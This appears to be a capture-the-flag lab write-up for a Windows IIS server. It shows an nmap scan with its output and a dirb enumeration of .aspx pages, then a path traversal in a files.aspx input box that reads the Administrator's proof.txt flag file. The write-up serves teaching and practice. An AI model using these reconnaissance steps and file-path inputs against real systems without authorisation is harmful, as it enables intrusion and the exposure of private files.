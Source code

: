 ## Second machine

We started by running `nmap` to scan the machine:

    nmap -A [IP] -Pn

nmap results:

    PORT      STATE SERVICE            VERSION
    80/tcp    open  http               Microsoft IIS httpd 8.5
    |_http-server-header: Microsoft-IIS/8.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-title: IIS Windows Server
    135/tcp   open  msrpc              Microsoft Windows RPC
    139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    | ssl-cert: Subject: commonName=WIN-0CHLK1AJTI8
    | Not valid before: 2023-01-01T12:23:51
    |_Not valid after:  2023-07-03T12:23:51
    |_ssl-date: 2023-01-02T17:39:30+00:00; 0s from scanner time.
    | rdp-ntlm-info:
    |   Target_Name: WIN-0CHLK1AJTI8
    |   NetBIOS_Domain_Name: WIN-0CHLK1AJTI8
    |   NetBIOS_Computer_Name: WIN-0CHLK1AJTI8
    |   DNS_Domain_Name: WIN-0CHLK1AJTI8
    |   DNS_Computer_Name: WIN-0CHLK1AJTI8
    |   Product_Version: 6.3.9600
    |_  System_Time: 2023-01-02T17:38:50+00:00
    49154/tcp open  msrpc              Microsoft Windows RPC
    49155/tcp open  msrpc              Microsoft Windows RPC
    49163/tcp open  msrpc              Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_nbstat: NetBIOS name: WIN-0CHLK1AJTI8, NetBIOS user: <unknown>, NetBIOS MAC: 06:b3:d0:29:70:d8 (unknown)
    | smb2-security-mode:
    |   3.0.2:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2023-01-02T17:38:51
    |_  start_date: 2023-01-02T17:30:24

as we can see, there is a web server running on port 80, there is nothing interesting on the website, beside the fact that it is running on ASP.NET. so we can try to enumerate the website using `dirb`:

    dirb http://[IP] -X .aspx

dirb results:

    ---- Scanning URL: http://172.16.4.109/ ----
    + http://172.16.4.109/download.aspx (CODE:200|SIZE:1538)
    + http://172.16.4.109/Download.aspx (CODE:200|SIZE:1538)
    + http://172.16.4.109/files.aspx (CODE:200|SIZE:1547)

we can see that there is a `files.aspx` page, so we can try to access it:

![files](./imgs/files_aspx.png)

i tried to type `../` in the input box then something interesting happened:

![exception](./imgs/exception.png)

`i understand that the code is trying to access a file that is located in the system32 directory, but the file does not exist.`

so i tried to input the full path to the flag file:

    C:\Users\Administrator\Desktop\proof.txt

then easily got the flag.
